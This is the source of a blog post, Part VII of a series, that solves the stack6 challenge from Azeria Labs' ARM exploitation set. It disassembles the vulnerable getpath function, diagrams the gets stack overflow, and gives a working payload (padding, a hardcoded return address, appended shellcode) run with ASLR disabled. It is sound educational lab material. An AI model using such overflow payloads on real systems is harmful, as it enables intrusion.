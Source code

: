 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part VII"
tags: [reversing, exploiting, ARM, iasm, azeria-labs, egg, shellcode, PIC]
inline_default_language: nasm
artifacts:
    - before-bo.svg
    - after-bo.svg
---
```


It's time to solve the last challenge of this 7 parts serie.<!--more-->


## The vuln

This time the overflow is not in `main`{.cpp} but in called function named
`getpath`{.cpp} but besides that, it is the classical unbounded
`gets`{.cpp}
vulnerability.

```nasm
pwndbg> pdisass &main 10
 ► 0x10560 <main>                 push   {fp, lr}
   0x10564 <main+4>               add    fp, sp, #4
   0x10568 <main+8>               sub    sp, sp, #8
   0x1056c <main+12>              str    r0, [fp, #-8]
   0x10570 <main+16>              str    r1, [fp, #-0xc]
   0x10574 <main+20>              bl     #getpath <getpath>

   0x10578 <main+24>              mov    r0, r3
   0x1057c <main+28>              sub    sp, fp, #4
   0x10580 <main+32>              pop    {fp, pc}
```

{% call marginnotes() %}
```nasm
pwndbg> p (char*)(*(0x104e8 + 0x60 + 0x8))
$7 = 0x105f8 "input path please: "

pwndbg> p (char*)(*(0x10524 + 0x2c + 0x8))
$8 = 0x1060c "bzzzt (%p)\n"

pwndbg> p (char*)(*(0x1053c + 0x18 + 0x8))
$9 = 0x10618 "got path %s\n"
```
{% endcall %}

Here is the `getpath`{.cpp} function. I added some notes in addition to the
disassembly:

```nasm
pwndbg> pdisass &getpath 15
 ► 0x104d8 <getpath>        push   {r4, fp, lr}
   0x104dc <getpath+4>      add    fp, sp, #8
   0x104e0 <getpath+8>      sub    sp, sp, #0x4c
   0x104e4 <getpath+12>     mov    r4, lr
   0x104e8 <getpath+16>     ldr    r0, [pc, #0x60]
   0x104ec <getpath+20>     bl     #printf@plt <printf@plt> ; "input path please: "

   0x104f0 <getpath+24>     ldr    r3, [pc, #0x5c]
   0x104f4 <getpath+28>     ldr    r3, [r3]
   0x104f8 <getpath+32>     mov    r0, r3
   0x104fc <getpath+36>     bl     #fflush@plt <fflush@plt>

   0x10500 <getpath+40>     sub    r3, fp, #0x50
   0x10504 <getpath+44>     mov    r0, r3
   0x10508 <getpath+48>     bl     #gets@plt <gets@plt>

   0x1050c <getpath+52>     mov    r3, r4
   0x10510 <getpath+56>     str    r3, [fp, #-0x10]
   0x10514 <getpath+60>     ldr    r3, [fp, #-0x10]
   0x10518 <getpath+64>     and    r3, r3, #0xbf000000  ; bin 1011 1111 0...
   0x1051c <getpath+68>     cmp    r3, #0xbf000000
   0x10520 <getpath+72>     bne    #getpath+96 <getpath+96>

   0x10524 <getpath+76>     ldr    r0, [pc, #0x2c]
   0x10528 <getpath+80>     ldr    r1, [fp, #-0x10]
   0x1052c <getpath+84>     bl     #printf@plt <printf@plt> ; "bzzzt (%p)\n"

   0x10530 <getpath+88>     mov    r0, #1
   0x10534 <getpath+92>     bl     #_exit@plt <_exit@plt>

   0x10538 <getpath+96>     sub    r3, fp, #0x50
   0x1053c <getpath+100>    ldr    r0, [pc, #0x18]
   0x10540 <getpath+104>    mov    r1, r3
   0x10544 <getpath+108>    bl     #printf@plt <printf@plt> ; "got path %s\n"

   0x10548 <getpath+112>    sub    sp, fp, #8
   0x1054c <getpath+116>    pop    {r4, fp, pc}
```


Writing 0x50 bytes we overwrite the stack just before
writing the *ret* address: 0x4 more bytes and we are done.

```nasm
 ► 0x104d8 <getpath>        push   {r4, fp, lr}
   0x104dc <getpath+4>      add    fp, sp, #8
   ...
   0x10500 <getpath+40>     sub    r3, fp, #0x50
   0x10504 <getpath+44>     mov    r0, r3
   0x10508 <getpath+48>     bl     #gets@plt <gets@plt>
```

{% call maindiag('before-bo.svg', 'ditaa') %}
```
 fp + 0x50            fp points here
   |                   |
   v                   v                      ||
-------- main ---------+------+---- start --  || stack before
   xxxxxxxx   r4   fp  |  lr  |  xxxxxxx  ... || the overflow
----- ^ ----- ^ -- ^ --+-- ^ -+-------------  ||
      |       |    |       |                  ||
   buffer    saved registers
```
{% endcall %}


The stack pointer `sp` after `getpath`{.cpp}
returns will be at *4 bytes more*  than `fp` *before* the return:

```nasm
(gdb) x/1wx $fp   ; before getpath returns
0xbefffb84:     0x00010578 ; <-- ret address (to main)

(gdb) bt
#0  0x000104e8 in getpath ()
#1  0x00010578 in main ()
```

{% call maindiag('after-bo.svg', 'ditaa') %}
```
                             sp points here
                              |
                              v               ||
-------- main ----------------+---- start --  || stack after
   AAAAAAAA   AA   AA      sp |  eeeeeee  ... || the overflow
----- ^ ----- ^ -- ^ ----- ^ -+- ^ ---------  ||
      |       |    |       |     |            ||
      \-- padding -/   befffb88  egg
```
{% endcall %}

## The attack (without DEP and ASLR)

The `egg.text` is the same one used in the
[part 6](/articles/2021/01/26/Smashing-ARM-Stack-for-Fun-Part-VI.html).

```shell
pi@raspberrypi:~$ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x88\xfb\xff\xbe' > exploit
pi@raspberrypi:~$ cat egg.text >> exploit

pi@raspberrypi:~$ rm -f pwned_proof

pi@raspberrypi:~$ setarch linux32 --addr-no-randomize /bin/bash

(aslr disabled) pi@raspberrypi:~$ cat exploit | ./stack6
(aslr disabled) pi@raspberrypi:~$ echo $?
0

(aslr disabled) pi@raspberrypi:~$ cat pwned_proof
pwn!
```

## Future work

This is the last part of the
[ARM challenges](https://github.com/azeria-labs/ARM-challenges) from
[Azeria Labs](https://azeria-labs.com).

However there are a lot of things to explore, tweak and stretch.

In the
[part 6](/articles/2021/01/26/Smashing-ARM-Stack-for-Fun-Part-VI.html)
I coded a ARM egg, the next obvious step would be write the same egg in
Thumb mode.

So far, the egg was always loaded in the stack and executed there. In
these modern days, the stack is **not** executable so it would be cool
to learn how to bypass this restriction (known as Data Execution
Prevention *DEP* or Write-xor-Execute *W+E*).


Since [part 5](/articles/2021/01/20/Smashing-ARM-Stack-for-Fun-Part-V.html)
we were *hardcoding* addresses. *Shame on me*.

Address Space Layout Randomization *(ASLR)* is a well established feature
of modern OS to randomize the *base address* of the loaded libraries.
Bypassing techniques exist since at least 2007 so it is a definitely
topic to learn.
